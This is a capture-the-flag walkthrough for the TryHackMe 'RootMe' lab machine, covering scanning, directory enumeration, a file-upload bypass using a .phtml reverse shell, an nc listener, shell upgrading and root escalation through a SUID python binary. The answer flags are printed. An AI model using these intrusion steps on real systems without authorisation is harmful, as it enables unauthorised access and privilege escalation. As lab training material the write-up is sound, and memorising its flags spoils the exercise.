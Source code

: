 
# RootMe (CTF)

```
export ip=10.10.46.48
```

# 1. Scan the machine, how many ports are open?

```json
nmap -sC -sV -oN scans/normal_nmap $ip
``` 
```
good habit but it is optional u can run a scan for all the ports 
```
```json
nmap -p -oN scans/allports_nmap $ip
```
```
answer: 2
```
# 2. What version of Apache is running?

```
using our nmap scan results (u can download my scan or run the command yourself)
we can see 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
```
```
answer: 2.4.29
```
# 3. What service is running on port 22?

```
using common knowledge and our nmap scan we know ssh is running on port 22
```
```
answer: ssh
```
# 4. What is the hidden directory?

```
we can find the hidden directory using gobuster. while the gobuster is searching we
should also check out the webserver ourselves.
```

```json 
gobuster dir -u http://10.10.46.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o scans/gobuster
```
```
after running gobuster we can see some interesting directories such as panel and uploads. if we go to panel we can upload a file and uploads stores them. 
```
```
answer: /panel/
```
# 5. user.txt

```
now using this knowledge we need to get a shell into the system. Considering we have a uploads and a way to upload already for us we can use this vulnerablility. Im going
to use pentestmonkey's php reverse shell (https://github.com/pentestmonkey/php-reverse-shell) and edit the ip and port to my own
```
```json
nc -lvnp 1337
```
```
looks like we cant upload .php extensions. There are many different ways to go around this but the route i took was using .phtml as its considered a php file but gets past the blacklist as "php" isnt the file name. Now lets go to /uploads/ and click our file
```

```
now that we have a shell lets upgrade it to a interactive tty using python. 
You can check if the box has python by using "which python" or "which python3"
```
```json
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
```
```
usually user flags are found in the users home folder as well as in the /var/www/ folder. Always check where u land just in case first using ls -la. we landed in the / directory and it was clean and so was the /home/. So lets check /var/www and boom there we go. lets use cat or nl and to vie wthe txt file and put the flag into tryhackme.
```
```
answer: THM{y0u_g0t_a_sh3ll}
```
# 6. Search for files with SUID permission, which file is weird?

```
 setuid (SUID) allows users to run an executable with the file system permissions of the executable's owner. So if the application has a suid and the owner was root any user on the machine can exploit the application.
 ```
 ```json
find / -user root -perm /4000 2>/dev/null
 ```
 ```
 this searches the whole machine for files with the user as root with the permission of 4000 (suid) and hides any error messages. Lets see which file is odd.
 you can use your own device as a check to see whats weird but straight away i can see
 /usr/bin/python is very odd to have a suid flag
 ```
 ```
 answer: /usr/bin/python
 ```

 # 7. root.txt

 ```
 we can know use gtfobins (https://gtfobins.github.io/)and escalate to root.
 ```
 ```json
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
```
if we run "whoami" or "id" we can see we are now root. Now the root flag is usually stored in /root/. If not you can search the box for the flag using 
"find / -name root* 2>/dev/null"
so lets cd into root and cat our flag and complete the box !
```
```
answer: THM{pr1v1l3g3_3sc4l4t10n}
```

```json
Congrats on finishing RootMe!
``` 




